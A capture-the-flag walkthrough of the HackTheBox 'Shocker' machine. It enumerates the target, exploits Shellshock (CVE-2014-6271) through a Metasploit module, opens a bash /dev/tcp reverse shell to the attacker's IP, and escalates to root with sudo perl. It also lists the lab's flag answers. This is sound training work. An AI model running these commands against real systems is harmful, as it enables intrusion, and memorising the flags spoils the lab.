 # HackTheBox Walkthrough - Machine: Shocker

**Target IP**: 10.129.83.111  
**Difficulty**: Easy  
**Objective**: Exploit the Shellshock vulnerability to gain a reverse shell and escalate privileges.

---

## Task 1: How many TCP ports are listening on Shocker?

Performed an Nmap scan:
```bash
nmap -sV -sC -oA nmap/Shocker 10.129.83.111
```

**Open Ports**:
- 80/tcp (HTTP)
- 2222/tcp (SSH)

**Answer**: `2`

---

## Task 2: What is the name of the directory available on the webserver that is a standard name known for running scripts via the Common Gateway Interface?

Used gobuster:
```bash
gobuster dir -u http://10.129.83.111/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

Found:
- `/cgi-bin/`

**Answer**: `cgi-bin`

---

## Task 3: What is the name of the script in the cgi-bin directory?

```bash
gobuster dir -u http://10.129.83.111/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl
```

Found script:
- `/cgi-bin/user.sh`

**Answer**: `user.sh`

---

## Task 4: The output from user.sh matches the output from what standard Linux command?

_Optional Task_

---

## Task 5: What 2014 CVE ID describes a remote code execution vulnerability in Bash when invoked through Apache CGI?

Found via Google search:
- **CVE**: `CVE-2014-6271`

---

## Gaining Access via Shellshock Exploit

Used Metasploit module:
```bash
msfconsole
search Shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set LHOST 10.10.14.156
set RHOSTS 10.129.83.111
set TARGETURI /cgi-bin/user.sh
run
```

Reverse meterpreter shell obtained.

---

## Submit User Flag

```bash
cat /home/shelly/user.txt
```

**Answer**: `90c5a327907f4c1b29b25e275757a962`

---

## Task 8: Which binary can the shelly user can run as root on Shocker?

Started reverse shell:
```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.156/8888 <&1'
```

Checked sudo permissions:
```bash
sudo -l
```

**Answer**: `perl`

---

## Submit Root Flag

```bash
sudo perl -e 'exec "/bin/sh";'
cat /root/root.txt
```

**Answer**: `bcbcf1bca3a6d0af2a7c84bbda8501e9`

---